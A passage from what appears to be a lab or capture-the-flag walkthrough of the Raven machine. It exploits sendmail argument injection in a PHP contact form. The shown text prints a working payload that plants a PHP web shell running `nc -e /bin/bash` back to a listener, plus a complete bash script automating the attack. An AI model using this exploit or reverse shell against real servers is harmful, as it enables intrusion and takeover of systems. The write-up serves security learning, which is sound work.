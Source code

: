 Any of the two can be chosen to inject the backdoor payload. To test it, it is possible to launch the sendmail directly from the command line and craft the mail manually:

```
tester@Raven:# $(echo '/usr/sbin/sendmail -f"d3adc0de\" -OQueueDirectory=/tmp -X/var/www/html/shell.php server" @gmail.com')
To: Hacker <admin@vulnerable.com>
Subject: Message from ME
Header: Date: Mon, 20 Jan 2020 20:23:17 +1100
From: Vulnerable Server <"d3adc0de\" -OQueueDirectory=/tmp -X/var/www/html/shell.php server" @gmail.com>
PWND!!<?php system('nc -e /bin/bash 192.168.56.1 444'); ?>
.
tester@Raven:# cat shell.php | grep '<?php'
29395 <<< PWND!!<?php system('nc -e /bin/bash 192.168.56.1 444'); ?>
29395 >>> PWND!!<?php system('nc -e /bin/bash 192.168.56.1 444'); ?>
29395 >>> PWND!!<?php system('nc -e /bin/bash 192.168.56.1 444'); ?>
29395 >>> PWND!!<?php system('nc -e /bin/bash 192.168.56.1 444'); ?>

```
The backdoor was successfully created.

##### Wrapping up

The final payload, as it looks after tweaking:

```sh
#!/bin/sh
echo "[*] Staring Listener on port 444"
gnome-terminal -- nc -lvkp 444 2>/dev/null

echo "[*] Writing shell on the filesystem"
curl -ksi -x $'http://127.0.0.1:8080' \
-X $'POST' -H $'Content-Type: multipart/form-data' \
-F $'action=submit' \
-F $'subject=No Subject' \
-F $'message=TEST' \
--form-string $'name=<?php system("nc -e /bin/bash 192.168.56.1 444");?>'\
--form-string $'email="injection\\\" -OQueueDirectory=/tmp -X/var/www/html/shell.php server" @pwnd.com' \
$'http://raven.local/contact.php' &>/dev/null

echo "[*] Triggering the reverse shell"
curl -ksi http://raven.local/shell.php -x http://127.0.0.1:8080 &>/dev/null
echo "[+] Done"
```

#### Conclusion

Very good machine to learn how to review code and find an injection point, if you don't choose to take the easy route and go with the public available exploit, of course! The level of complexity is close to AWAE level.
